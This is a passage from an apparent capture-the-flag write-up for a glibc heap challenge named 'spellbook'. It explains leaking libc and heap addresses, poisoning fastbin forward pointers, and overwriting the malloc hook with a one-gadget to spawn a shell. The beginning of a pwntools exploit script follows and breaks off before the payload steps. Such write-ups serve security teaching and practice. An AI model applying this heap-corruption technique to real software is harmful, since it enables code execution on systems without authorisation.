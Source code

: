 A final complication here is the fact that the add function requires the allocation and fill of first a chunk that goes in the 0x30 bin, then the allocation of a custom-sized bin. We need to use the custom size for the malloc hook overwrite, but the 0x30 bin will also end up with its forward pointer being overwritten, which means that we need an address in memory with a size that won't throw an error in the 0x30 fastbin. I opted to go back and leak a heap address (quite simple using the technique to get the libc address, but by leaking a fastbin's metadata rather than an unsorted bin's metadata), then overwrote the 0x30 bin forward pointer with a heap address for one of the other 0x30 fastbin chunks. 

So, the methodology of my script is to allocate a >0x80 chunk and two 0x60 chunks (goes in 0x70 fastbin when metadata is added). Then free and show the large chunk for a libc leak, then free both fastbin chunks and show the last to be free in order to get a heap address from the forward pointer. Finally, I edit one of the freed fastbin chunks to mantain an appropriately-sized heap address in the 0x30 fastbin, and the malloc hook - 0x23 address in the 0x70 fastbin's forward pointer. If I then use the add function twice, the second round of mallocs will allocate chunks at my new forward pointers. The malloc hook can get overwritten with a working onegadget, and triggering a single, final malloc will get me a shell.
```
from pwn import *

target = process('./spellbook')

#pid = gdb.attach(target, "\nb *show+170\nb *delete+160\nb *add+318\nb *add+102\nb *edit+186\nb *edit+248\n set disassembly-flavor intel\ncontinue")

#target = remote('167.99.206.87', 30567)

libc = ELF('glibc/libc.so.6')

def add(index, type, power, power_content):
    
    print(target.recvuntil(b'4. Delete'))
    target.sendline(b'1')
    
    print(target.recvuntil(b's entry:'))
    target.sendline(str(index))
    print(target.recvuntil(b's type:'))
    target.send(type)
    print(target.recvuntil(b'power:'))
    target.sendline(str(power))
    print(target.recvuntil(b'Enter'))
    target.send(power_content)

def show(index):
    print(target.recvuntil(b'4. Delete'))
    target.sendline(b'2')
    
    print(target.recvuntil(b's entry:'))
    target.sendline(str(index))
    
    
def edit(index, type, power_content):
    
    print(target.recvuntil(b'4. Delete'))
    target.sendline(b'3')
    
    print(target.recvuntil(b's entry:'))
    target.sendline(str(index))
    print(target.recvuntil(b's type:'))
    target.sendline(type)
    print(target.recvuntil(b'New'))
    target.sendline(power_content)
    
def delete(index):
```